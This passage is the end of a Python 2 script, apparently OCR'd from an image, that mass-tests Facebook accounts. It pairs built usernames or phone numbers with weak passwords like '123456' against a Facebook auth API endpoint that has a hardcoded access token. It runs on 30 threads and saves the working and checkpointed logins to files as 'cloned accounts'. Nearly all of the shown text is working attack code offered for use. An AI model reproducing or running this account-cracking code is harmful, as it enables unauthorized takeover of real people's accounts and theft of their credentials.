                     cps = open('save/CP.txt', 'a')
 
                    cps.write(k + c + user + pass2 + '\n')
 
                    cps.close()
 
                    cpb.append(c + user + pass2)
 
                else:
 
                    pass3 = '123456'
 
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 
                    q = json.load(data)
 
                    if 'access_token' in q:
 
                        print '\x1b[1;92m  [OK-MAHIN]  ' + k + c + user + '  |  ' + pass3
 
                        okb = open('save/CP.txt', 'a')
 
                        okb.write(k + c + user + pass3 + '\n')
 
                        okb.close()
 
                        oks.append(c + user + pass3)
 
                    elif 'www.facebook.com' in q['error_msg']:
 
                        print '\x1b[1;92m  [CP-MAHIN] ' + k + c + user + '  |  ' + pass3
 
                        cps = open('save/CP.txt', 'a')
 
                        cps.write(k + c + user + pass3 + '\n')
 
                        cps.close()
 
                        cpb.append(c + user + pass3)
 
                                
 
        except:
 
            pass
 
    p = ThreadPool(30)
 
    p.map(main, id)
 
    print(48*"-")
 
    print 'Process Has Been Completed!...'
 
    print 'Total OK : ' + str(len(oks))
 
    print 'Total CP : ' + str(len(cpb))
 
    print(47*"-")
 
    print 'Cloned Accounts Has Been Saved : save/cloned.txt'
 
    jalan('Note : Cp account  10 say 12 days BAD OPEN KRY')
 
    raw_input('\n\x1b[1;95m[\x1b[1;98mMetoo_menu_Back\x1b[1;95m]')
 
    login()
 
if __name__ == '__main__':
 
    menu()
 
 

